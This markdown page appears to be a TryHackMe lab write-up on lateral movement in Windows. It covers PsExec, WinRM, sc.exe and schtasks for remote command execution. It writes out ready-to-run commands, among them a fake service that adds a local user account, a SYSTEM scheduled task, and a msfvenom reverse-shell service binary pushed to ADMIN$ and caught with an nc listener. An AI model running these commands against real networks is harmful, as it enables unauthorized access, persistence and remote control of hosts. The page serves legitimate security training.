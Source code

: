 # Spawning processes remotely

| Remote Session           | Port(s)                     | Requirements                               |
|--------------------------|-----------------------------|--------------------------------------------|
| PsExec                   | TCP/445                     | Account must be an administrator           |
| WinRM over HTTP          | TCP/5985                    | Group Memberships: Remote Management Users |
| WinRM over HTTPS         | TCP/5986                    | Group Memberships: Remote Management Users |
| DCE/RPC                  | TCP/135,<br>TCP/49152-65535 | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/445                     | Group Memberships: Administrators          |
| RPC over SMB Named Pipes | TCP/139                     | Group Memberships: Administrators          |

## PsExec

| ![PsExex Auth Flow](../../_static/images/psexec.png) |
|:--:|
| Authentication workflow |

1. Connect to `Admin$` share and upload a service binary `psexesvc.exe`.
2. Connect to the service control manager to create and run a service named `PSEXESVC` and associate the service 
binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle `stdin`/`stdout`/`stderr`.

Start a remote command prompt:

    .\psexec.exe \\<IP target> -u <username> -p <password> -i cmd.exe

## WinRM

PowerShell:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    $session = New-PSSession -ComputerName target-ip -Credential $credential
    $session | Enter-PSSession

Cleanup:

    $session | Remove-PSSession

A single command:

    $username = 'user.name'
    $password = 'mypass' | ConvertTo-SecureString -AsPlainText -Force
    $credential = [pscredential]::new($username, $password)
    Invoke-Command -ComputerName target-ip -Credential -ScriptBlock {Get-ComputerInfo}

## sc.exe

Remote command execution by registering and running services on a host. The service is configured to run a command 
at start up.

| ![RCP](../../_static/images/sc-RPC.png) |
|:--:|
| Try authenticating to the Service Control Manager using RPC first. |

If RPC fails:

| ![SMB](../../_static/images/sc-SMB.png) |
|:--:|
| Try communicating using an SMB named pipe |

Register the fake service (`binpath` is the command to run on the host)

    sc.exe \\<IP Target> create <fakeservice> binpath= "net user <username> <password> /add" start= auto

Start the remote service to run the command:

    sc.exe \\<IP Target> start <fakeservice>

Stop and cleanup:

    sc.exe \\<IP Target> stop <fakeservice>
    sc.exe \\<IP Target> delete <fakeservice>

## schtasks

Remote command/payload execution by registering a scheduled task on a host.

Create and run Task:

    schtasks /s target-ip /RU "SYSTEM" /create /tn "Task" /tr "powershell -command 'Get-ComputerInfo'" /sc ONCE /sd 01/01/1970 /st 00:00
    schtasks /s target-ip /run /tn "Task"

Cleanup:

    schtasks /s target-ip /tn "Task" /DELETE /F

## Flag

Leverage a session on the jump host to deliver a payload to an IIS web server. The payload will connect back to 
the attack machine (Kali VM in my case).

Use the credentials downloaded (see [setup](setup.md)) to ssh into `thmjmp2`:

    ssh <username>@za.tryhackme.com@thmjmp2.za.tryhackme.com

On attack machine, create a service binary payload:

    msfvenom -p windows/shell_reverse_tcp LHOST=<IP address VPN> LPORT=4444 -f exe-service -o iispwn.exe

Use the given credentials to transfer the file to the IIS server:

    smbclient -c 'put iispwn.exe' -U <username> -W ZA '//thmiis.za.tryhackme.com/ADMIN$' <password>

Start a listener to receive the reverse shell from the IIS server:

    sudo nc -lnvp 4444

Use the `ssh` session on `thmjmp2` as reverse shell (no need for runas etc.):

    sc.exe \\thmiis.za.tryhackme.com create pwniis binpath= "%windir%\isspwn.exe" start= auto
    sc.exe \\thmiis.za.tryhackme.com start pwniis

Run the `flag.exe` file on the users desktop on THMIIS.